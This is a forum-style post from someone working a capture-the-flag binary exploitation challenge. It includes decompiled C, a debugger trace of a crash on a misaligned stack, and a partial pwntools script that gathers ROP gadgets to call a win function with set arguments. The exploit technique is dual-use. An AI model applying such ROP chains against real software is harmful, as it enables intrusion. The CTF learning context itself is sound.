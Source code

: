 Running this *almost* works :)

I'm just stuck at the print function... after the registers checks.

```c
# This line fails:
  printf(&DAT_00402140,&DAT_004020b6);
  fflush(stdin);
  fflush(stdout);
  while( true ) {
    sVar1 = read(local_c,&local_d,1);
    if (sVar1 < 1) break;
    fputc((int)local_d,stdout);
  }
  close(local_c);
  fflush(stdin);
  fflush(stdout);
  return;
```

When digging deeper, it crashes when printf calls another function...
```
0x7ffff7c6078f <printf+159> mov rdi, qword ptr [rax] 
0x7ffff7c60792 <printf+162> mov dword ptr [rsp + 4], 0x30 
► 0x7ffff7c6079a <printf+170> call 0x7ffff7c75030
```

And inside that function, it crashes when using weird registers that i don't know...
```
► 0x7ffff7c750d0 movaps xmmword ptr [rsp + 0x10], xmm1
```

I guess that might be a problem from my RSP, but some lines using RSP already worked so that'd be weird.



My code was this:

```python
from pwn import *

LOCAL_FILE_PATH: str = "./rocket_blaster_xxx"
REMOTE_SERVER = "94.237.63.83"
REMOTE_PORT = 46473


def find_gadgets(binary_path):
    elf = ELF(binary_path)
    rop = ROP(elf)

    # Search for gadgets to set up RDI, RSI, and RDX registers
    pop_rdi = rop.find_gadget(['pop rdi', 'ret']).address
    pop_rsi = rop.find_gadget(['pop rsi', 'ret']).address
    pop_rdx = rop.find_gadget(['pop rdx', 'ret']).address
    return pop_rdi, pop_rsi, pop_rdx

def pwn_rocket_blaster(proc):
    pop_rdi, pop_rsi, pop_rdx = find_gadgets(LOCAL_FILE_PATH)

    # Receive until the prompt
    proc.recvuntil(b">> ")

    # Addresses and arguments
    fill_ammo_addr = 0x4012f5
    arg1 = 0xdeadbeef
    arg2 = 0xdeadbabe
    arg3 = 0xdead1337

```